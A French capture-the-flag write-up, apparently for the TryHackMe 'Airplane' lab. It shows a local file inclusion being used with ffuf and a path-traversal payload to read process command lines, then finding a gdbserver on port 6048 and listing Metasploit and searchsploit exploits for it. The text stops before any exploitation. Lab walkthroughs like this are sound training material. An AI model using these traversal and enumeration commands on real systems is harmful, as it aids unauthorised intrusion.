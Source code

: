 Je vais essayer de voir les processus en cours avec la LFI, peut-être que je trouverais un process vulnérable. Pour cela, on va bruteforcer les PIDs et lire le fichier **cmdline**. L'outil **ffuf** fera très bien l'affaire ici.

On va créer un fichier contenant les potentiels ID :
```
seq 200000 >> ids
```
Ensuite, on va fuzzer !
```
ffuf -w ids -u "http://airplane.thm:8000/?page=../../../../proc/FUZZ/cmdline" 
```
```
[...]
556                     [Status: 200, Size: 56, Words: 8, Lines: 1, Duration: 34ms]
708                     [Status: 200, Size: 48, Words: 2, Lines: 1, Duration: 35ms]
712                     [Status: 200, Size: 48, Words: 2, Lines: 1, Duration: 33ms]
711                     [Status: 200, Size: 48, Words: 2, Lines: 1, Duration: 34ms]
714                     [Status: 200, Size: 107, Words: 5, Lines: 1, Duration: 34ms]
728                     [Status: 200, Size: 107, Words: 5, Lines: 1, Duration: 32ms]
735                     [Status: 200, Size: 107, Words: 5, Lines: 1, Duration: 36ms]
[...]
```
Il y a beaucoup de process en cours... Je vais faire un script qui me télécharge les 10000 premiers, et je vais ensuite mettre tout les fichiers dans un seul fichier.

Je trouve un process qui me plait bien en recherchant **airplane** !
```
/usr/bin/gdbserver0.0.0.0:6048airplane
```
Il s'agit de **gdbserver** qui est visiblement en écoute sur le port 6048. **gdbserver** est un debugger à distance grosso modo. On peux faire écouter gdbserver sur n'importe quel port et, pour l'instant, nmap n'est pas capable de reconnaître ce service.

Il existe des exploits sur **Metasploit**
```
msf6 > search gdbserver

Matching Modules
================

   #  Name                               Disclosure Date  Rank   Check  Description
   -  ----                               ---------------  ----   -----  -----------
   0  exploit/multi/gdb/gdb_server_exec  2014-08-24       great  No     GDB Server Remote Payload Execution
```
On retrouve aussi un exploit avec **searchsploit**
```
--------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                     |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RCE)                                                                                                 | linux/remote/50539.py
--------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Je ne connais pas la verison de gdbserver, on va donc test hein !
